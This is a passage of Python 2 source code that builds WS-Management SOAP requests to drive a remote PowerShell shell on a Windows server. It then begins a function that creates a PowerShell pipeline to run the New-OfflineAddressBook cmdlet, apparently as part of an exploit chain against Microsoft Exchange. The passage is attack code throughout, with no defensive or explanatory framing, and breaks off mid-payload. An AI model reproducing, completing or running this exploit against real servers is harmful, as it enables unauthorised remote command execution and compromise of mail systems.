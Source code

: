 ```python
		<a:ReplyTo>
			<a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
		</a:ReplyTo>
		<a:Action s:mustUnderstand="true">http://schemas.microsoft.com/wbem/wsman/1/windows/shell/Receive</a:Action>
		<w:MaxEnvelopeSize s:mustUnderstand="true">512000</w:MaxEnvelopeSize>
		<a:MessageID>uuid:{MessageID}</a:MessageID>
		<w:Locale xml:lang="en-US" s:mustUnderstand="false" />
		<p:DataLocale xml:lang="en-US" s:mustUnderstand="false" />
		<p:SessionId s:mustUnderstand="false">uuid:{SessionId}</p:SessionId>
		<p:OperationID s:mustUnderstand="false">uuid:{OperationID}</p:OperationID>
		<p:SequenceId s:mustUnderstand="false">1</p:SequenceId>
		<w:SelectorSet>
			<w:Selector Name="ShellId">{ShellId}</w:Selector>
		</w:SelectorSet>
		<w:OptionSet xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
			<w:Option Name="WSMAN_CMDSHELL_OPTION_KEEPALIVE">TRUE</w:Option>
		</w:OptionSet>
		<w:OperationTimeout>PT180.000S</w:OperationTimeout>
	</s:Header>
	<s:Body>
		<rsp:Receive xmlns:rsp="http://schemas.microsoft.com/wbem/wsman/1/windows/shell"  SequenceId="0">
			<rsp:DesiredStream>stdout</rsp:DesiredStream>
		</rsp:Receive>
	</s:Body>
</s:Envelope>""".format(SessionId=SessionId, MessageID=MessageID, OperationID=OperationID, ShellId=ShellId)
	r = sendPostRequest(data)
	if r.status_code == 200:
		print(r.text)
		doc = xml.dom.minidom.parseString(r.text);
		elements = doc.getElementsByTagName("rsp:Stream")
		if len(elements) == 0:
			print_error_and_exit("receive_data failed with no Stream return", r)
		for element in elements:
			stream = element.firstChild.nodeValue
			data = base64.b64decode(stream)
			data = unicode(data, errors='ignore')
			#data = data.decode('utf-8')
			print("base64 decoded DATa = ", data)
			if "RunspaceState" in data:
				print ("[+] Found RunspaceState packet")
				return True
		return False
		# print("[+] second soap packet success")
		# return True
	else:
		print_error_and_exit("receive_data failed", r)

def run_cmdlet_new_offlineaddressbook(SessionId, ShellId, RPID):
	PID = uuid.uuid4()
	# print '[+] Pipeline ID: ', PID
	print('[+] Create powershell pipeline')

	name = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(10))

	commandData = """<Obj RefId="0"><MS>
	<Obj N="PowerShell" RefId="1"><MS>
		<Obj N="Cmds" RefId="2">
			<TN RefId="0">
```